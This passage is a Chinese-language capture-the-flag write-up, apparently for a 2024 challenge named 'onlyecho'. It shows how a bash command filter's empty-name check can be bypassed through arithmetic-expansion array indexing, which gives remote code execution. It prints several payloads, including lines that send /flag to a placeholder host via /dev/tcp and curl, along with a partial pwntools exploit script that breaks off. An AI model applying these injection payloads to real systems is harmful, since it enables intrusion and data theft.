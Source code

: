 ```json
```

這邊試了部分 command injection 的手法，但可以看到都有成功辨識成 `Command`，而 `check` function 的檢查是 recursive 的，所以理論上上面的這些 payload 檢查都不會過。

### 解題

首先再仔細看看 `check` function

```js
    if (prop === 'type' && ast[prop] === 'Command') {
      if (ast['name'] && ast['name']['text'] && ast['name']['text'] != 'echo') {
        return false;
      }
    }
```

其中 `ast['name']['text']` 會有問題，由於 js week type 的特性，當字串為空值的時候會是 `false`，因此除了 command 為 echo 的指令以外 command 為空值的指令也能用。

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f83386d9-1572-4520-816e-227a790e5dcd)

那在何種情況 command 會是空值呢？這邊發現在定義 `environment variable` 的時候 command 會是空值。

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/793f7e9d-0597-462b-8b41-898f8dce1d83)

也就是說我們除了下 `echo` 以外也可以定義 `environment variable`，那這能做甚麼，這就能利用 bash 裡面 `Arithmetic Expansion` 也就是 `$((1+1))` 以及 array 也就是 `arr=(aa bb); echo ${arr[0]}` 這個兩個功能的特性。

首先 `Arithmetic Expansion` 裡面如果出現 variable 的話她會**自動**把 variable 內的表達式做展開，也就是 `test='1+1'; echo $((test+1))` 你會得到 `$(((1+1)+1))` 也就是 3。

再來 array 如果在 `Arithmetic Expansion` 內，並且她的 index 有 `command substitution` 也就是 `$()` 的話一樣會執行 command，也就是說 `arr=(1 2); echo $((arr[$(echo 1)]+1))` 這樣會得到 `$((arr[1]+1))` 展開後是 `$((2+1))` 也就是 3。

利用這兩點我們可以組合出這個 `payload='arr[$(RCE)]'; echo $(( payload == 1 ));` 再 `RCE` 的位置可以放任意指令並執行，這點我們可以用這個指令做測試 `arr='1' payload='arr[$(echo 0)]'; echo $(( payload == 1 ))`

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/96e9b383-0109-4222-9fe2-d27e3f52a256)

但是用這種方式所造成的 RCE 沒辦法使用 STDOUT 輸出任何東西，因此要另外想回傳 flag 的方發，遠本試過用網路回傳如：`payload='arr[$(cat /flag > /dev/tcp/<IP>/<PORT>)]'; echo $(( payload == 1 ));` 或者 `payload='arr[$(curl <URL>/$(cat /flag))]'; echo $(( payload == 1 ));` 等等方法，但都沒成功，於是我試架一次他的環境，發現他的環境沒有 `/dev` 然後我把 `nc` 放進去以後發現環境沒網路，所以沒辦法用網路傳 flag 回來。

最後發現他有 `/proc` 所以試著用 `payload='arr[$(cat /flag > /proc/$$/fd/1)]'; echo $(( payload == 1 ));` 不知道為何依然沒成功，後來我發現他的 nodejs 程式每次執行一定再 pid 1 所以我就用 `payload='arr[$(cat /flag > /proc/1/fd/1)]'; echo $(( payload == 1 ));` 就成功拿到 flag 了。

### exploit

```python
import pwn
import base64
import sys
import subprocess

r = pwn.remote("onlyecho.2024.ctfcompetition.com", 1337)

def genpayload(cmd):
    return f"payload='arr[$({cmd})]'; echo $(( payload == 1 )); "

sys.stdout.buffer.write(r.recvuntil(b') solve '))

token = r.recvuntil(b'\n')
sys.stdout.buffer.write(token)

token = token.strip().decode()

```